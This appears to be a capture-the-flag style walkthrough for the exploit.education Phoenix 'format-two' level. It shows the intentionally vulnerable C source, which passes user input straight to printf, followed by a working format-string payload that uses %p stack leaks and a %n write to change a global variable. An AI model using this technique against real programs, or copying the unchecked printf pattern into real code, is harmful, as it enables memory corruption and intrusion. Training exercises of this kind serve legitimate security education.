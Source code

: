 # Format Two

```c
/*
 * phoenix/format-two, by https://exploit.education
 *
 * Can you change the "changeme" variable?
 *
 * What kind of flower should never be put in a vase?
 * A cauliflower.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int changeme;

void bounce(char *str) {
  printf(str);
}

int main(int argc, char **argv) {
  char buf[256];

  printf("%s\n", BANNER);

  if (argc > 1) {
    memset(buf, 0, sizeof(buf));
    strncpy(buf, argv[1], sizeof(buf));
    bounce(buf);
  }

  if (changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  } else {
    puts("Better luck next time!\n");
  }

  exit(0);
}
```

## Walkthrough

1. When a raw string is passed to `printf()` you can use the format specifier `%p` to see the address of the corresponding value, If no value is provided, it starts reading off of the stack. [man printf](https://man7.org/linux/man-pages/man3/printf.3.html)
    - `/opt/phoenix/amd64/format-two "%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p"` to read many addresses.
    - ![](img/memory_addrs.png)
    - The output tells us that the string we are provide is the 12th argument to the `printf()`
2. We can use another format specifier (`%n`) to write to a given argument in `printf()`. It writes the number of bytes printed to the specified address. So by providing an address as our string and a `%n` on the 12th argument we can write some value to that address. To find the address to write to: 
    - `objdump -t /opt/phoenix/amd64/format-two`
    - ![](img/obj_dump.png)
3. Unfortunately the following: ``/opt/phoenix/amd64/format-two `python -c "print('\xf0\x0a\x60%p%p%p%p%p%p%p%p%p%p%p%n')"`` doesn't work because `\x0a` is `\n` and only the first character is read and the rest is ignored. We will instead need to do this problem in 32 bit architecture.
4. `objdump -t /opt/phoenix/amd64/format-two`
    - ![](img/mem_addr_32.png)
5. ``/opt/phoenix/i486/format-two `python -c "print(b'\x68\x98\x04\x08' + b'%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%n')"` ``
    - ![](img/success.png)
    